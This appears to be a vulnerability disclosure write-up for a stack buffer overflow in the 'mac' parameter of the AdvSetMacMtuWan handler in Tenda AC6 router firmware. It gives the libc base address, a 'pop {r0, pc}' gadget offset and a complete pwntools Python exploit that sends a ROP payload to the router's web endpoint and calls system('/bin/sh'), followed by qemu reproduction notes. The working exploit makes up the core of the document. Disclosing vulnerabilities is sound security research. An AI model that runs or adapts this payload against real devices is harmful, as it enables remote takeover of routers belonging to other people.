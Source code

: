 # fromAdvSetMacMtuWan-vulnerability

## Intro

Tenda AC6 V1.0BR_V15.03.05.19_multi_TD01 firmware has a buffer overflow vulnerability in the sub_72E7C function. **strcpy(a3 + 0x4c, v6);** function copies the contents of the parameter **"mac"(or mac2)** to a3 without performing a length check. Therefore we can send a very long string to overwrite the return address to execute certain code we want.

![img](./assets/19.png)

![img](./assets/20.png)

## Exp

By analysing the libc in firmware and adding breakpoint in memset function, we can get the base address of libc：0x3fdd8f70-0x3df70=0x3fd9b000

![](./assets/2.png)

![](./assets/3.png)

Then let's set the rop chain. It's so lucky that there's a perfect gadget "pop {r0, pc}" that can pass parameter and set pc at the same time. So we can use this gadget to execute "system("/bin/sh")" easily. The offset of this gadget in libc is 0x0003db80（take US_AC6V1.0BR_V15.03.05.19_multi_TD01 as example）.

Noticing that sub_72E7C is called by fromAdvSetMacMtuWan, we should pay attention that when overwriting the return address of fromAdvSetMacMtuWan, we also rewrite some local variables in fromAdvSetMacMtuWan. To make it run normally before returning, we should set the value of [sp+17Ch] and [sp+180h] as 0xffffffff（minus one）.

![](./assets/10.png)

```python
from pwn import *
import requests

libc = ELF('./lib/libc.so.0')

libc_start = 0x3fd9b000
system_addr = libc_start + libc.symbols['system']
binsh_addr = libc_start + next(libc.search(b'/bin/sh'))

# 0x0003db80 : pop {r0, pc}

pop_r0_pc = libc_start + 0x0003db80

print(f"system: {hex(system_addr)}")
print(f"/bin/sh: {hex(binsh_addr)}")
print(f"pop {hex(pop_r0_pc)}")

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'mac': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xc8 * b'A' + b'\xff\xff\xff\xff' + b'\xff\xff\xff\xff' + 0x10 * b'A' + p32(pop_r0_pc) + p32(binsh_addr) + p32(system_addr)
send_payload("http://10.10.10.1/goform/AdvSetMacMtuWan", payload)

```

## Reproduction

If you are using qemu to run the binary file, to make it run correctly, there's several places to patch.

The instructions patched to **'b'(the jump instruction)** can be listed as follows:  

![](./assets/4.png)

![](./assets/5.png)

Then after running the exp twice we can get shell successfully.

![](./assets/18.png)